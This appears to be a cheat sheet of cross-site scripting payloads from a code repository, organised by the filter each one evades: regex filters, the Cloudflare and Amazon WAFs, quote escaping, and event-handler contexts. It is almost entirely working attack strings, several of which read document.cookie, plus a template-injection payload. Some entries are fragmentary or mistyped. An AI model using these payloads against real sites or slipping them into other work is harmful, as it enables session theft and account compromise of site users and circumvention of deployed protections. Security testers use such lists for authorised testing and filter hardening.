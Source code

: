 
Regex Filter BYpass:
====================
	==""><h1 onclick=alert`1`

	""><img src=x onload=alert(1)>


Cloudflare Fileter Bypass:
==========================

	<Svg Only=1 OnLoad=confirm(1)>
	"><svg+svg+svg\/\/On+OnLoAd=confirm(1)>
	"><svg/onload=alert(1)>
	"><svg/on/onload=alert(1)>
	“><sv\u01234\g\u01235/on\u01236load=confirm(1)>
	"><sv\u01234\g+s\01235\vg...
	"><sv\u01234\g+s\01235\vg+\01236\svg
	\u01237\/ ----> \/\u01237\/\ ----> /\u01237\/ ----> /
	On\u01234\load ----> On\u01234\+OnLoAd ----> onload
	"\/><img%20s+src+c=x%20on+onerror+%20="alert(1)"\>
	“%3E%3Csvg onmouseover%3d”confirm(1"/%3E
	%22%3E%3Csvg%20onmouseover%3d%22confirm%26%230000000040document.domain)
	hello<svg on onload=(alert)(document.cookie)>
	%2522%2520onmouseover%253D%2522alert%25281%252 - ["onmouseover="alert(1)] double urlencode
	<svg onload=alert%26%230000000040"1")>
	
	AMAZON WAF BYPASS


          "><D3V%0aONPoiNtERENTEr%0d=%0d[document.cookie].find(confirm)%0dx>





	

	


Other Bypass Techniques:
=======================
	When [">,alert] is filter/blocked use this:
	"autofocus+onfocus%3D"%26%230000106%26%230000097%26%230000118%26%230000097%26%230000115%26%230000099%26%230000114%26%230000105%26%230000112%26%230000116%26%230000058%26%230000097%26%230000108%26%230000101%26%230000114%26%230000116%26%230000040%26%230000039%26%230000088%26%230000083%26%230000083%26%230000039%26%230000041#

2-  Inside javascript val = ''

			'-alert(1)-'
	Inside Javascript string - filter single quote and backslach escaped
	
			\';alert(1);<!--

3-	Filter Inside Event handler:

		%26apos;);alert(1)//

4-  Double quote delimiter: filter only >  

		"autofocus%20onfocus="alert(1)

	Single quote delimiter: >

		'autofocus onfocus='alert(1)

	Stored XSS - 

	{{constructor.constructor('alert('XSS')')()}}    - For more check out: HackTricks - CSTI 


